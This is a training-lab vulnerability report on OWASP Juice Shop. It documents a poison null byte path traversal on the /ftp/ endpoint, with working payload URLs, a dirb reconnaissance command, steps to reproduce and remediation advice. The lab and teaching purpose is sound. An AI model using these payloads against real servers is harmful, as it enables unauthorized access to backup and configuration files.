



**CVE-ID**: EDU-JUICESHOP-2026-T03-001  
**Title**: Path Traversal via Poison Null Byte in File Download Function  
**Affected Lab**: Juice Shop  
**Component**: /ftp/ file access endpoint  
**Severity**: High  
**CVSS Vector**: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
**CVSS Score**: 7.5  

**Description**:  
The Juice Shop application is vulnerable to a Path Traversal attack using the Poison Null Byte technique. Access to the `/ftp/` endpoint enables unauthorized access to restricted backup files (`.bak`), configuration files, and sensitive documents that should not be publicly accessible, leading to information disclosure.

A null byte (`%2500`) is a special character that ends a string. When added to a URL, it makes the server stop reading at that point. This can trick the system into ignoring anything after the null byte, letting you bypass extension checks or restrictions.

**Proof of Concept**:  

Payload 1: `http://[JuiceshopIP:port]/ftp/`  
Effect: Accesses ftp endpoint

Payload 2: `http://[JuiceshopIP:port]/ftp/[pathtoexposedfile]%2500.md`  
Effect: Accesses an exposed file  

Example `http://[JuiceshopIP:Port]/ftp/coupons_2013.md.bak%2500.md`  

**Steps to Reproduce**:  
1. Reconnaisance with dirb: dirb http://[JuiceshopIP:Port]/#/ /usr/share/wordlists/dirb/common.txt
2. Navigate to the Juice Shop FTP directory: `http://[JuiceshopIP:Port]/ftp/`  
2. Observe directory listing revealing multiple files
3. Attempt to access a file directly (will be blocked by extension validation):  
4. Append the URL-encoded null byte (%2500) followed by the .md extension:  
   `http://[JuiceshopIP:Port]/ftp/coupons_2013.md.bak%2500.md`  
5. Observe that the backup file is successfully downloaded, revealing sensitive data  
6. Repeat with other backup files

**Remediation**:  
1. Implement proper input validation and sanitization on all file path parameters  
2. Remove or restrict access to backup files on the production server  
3. Update the file access logic to reject requests containing null bytes or URL-encoded null bytes  
4. Disable directory listing on the `/ftp/` endpoint to prevent exposure of sensitive filenames  

**Discovered By**: Team 3  
**Date**: 2026-02-06
